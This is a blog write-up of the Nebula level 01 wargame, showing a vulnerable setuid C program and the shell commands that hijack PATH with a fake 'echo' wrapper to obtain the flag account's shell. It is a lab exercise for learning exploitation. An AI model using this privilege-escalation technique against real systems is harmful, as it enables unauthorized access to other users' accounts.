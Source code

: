 ```yaml
---
title: "Exploit Exercises - Nebula 01"
date: "2011-12-02T06:18:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-01.html"
---
```


Continuing from my previous post, I started tinkering with the next Nebula wargame: [Nebula 01](http://exploit-exercises.com/nebula/level01). This one gives you some C code, which has a bug in it. You have to exploit that bug.

<!-- more -->

```
#include <stdlib.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 gid_t gid;
 uid_t uid;
 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 system("/usr/bin/env echo and now what?");
}
```

If you read through the code, you may notice that it's calling "echo" with some text appended, to echo it to the screen. How it's being called, it is loading the path to "echo" from the environment settings. It'll read what's in the path. To exploit this, all we have to do is modify the path.

```
level01@nebula:/home/flag01$ PATH=/tmp:$PATH
level01@nebula:/home/flag01$ export PATH
level01@nebula:/home/flag01$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Now, if "echo" is called, it'll look in /tmp first. So let's start tinkering. My first thought was to just make a symbolic link to /bin/bash, to get me a shell.

```
level01@nebula:/home/flag01$ ln -s /bin/bash /tmp/echo
level01@nebula:/home/flag01$ ./flag01
echo: and: No such file or directory
```

However, that didn't work, because it was essentially calling bash with the parameters of "and now what?". To get around that, I figured I'd wrap it in a bash script, which just ignored any parameters. I deleted the /tmp/echo file I created, and tried over.

```
level01@nebula:/home/flag01$ rm /tmp/echo
level01@nebula:/home/flag01$ ln -s /bin/bash /tmp/echo2
level01@nebula:/home/flag01$ echo -e '#!/bin/bash\n/tmp/echo2' > /tmp/echo;chmod +x /tmp/echo
level01@nebula:/home/flag01$ ./flag01
flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
```

This time it was successful, so I again, ran "getflag".  Now I have another level complete.
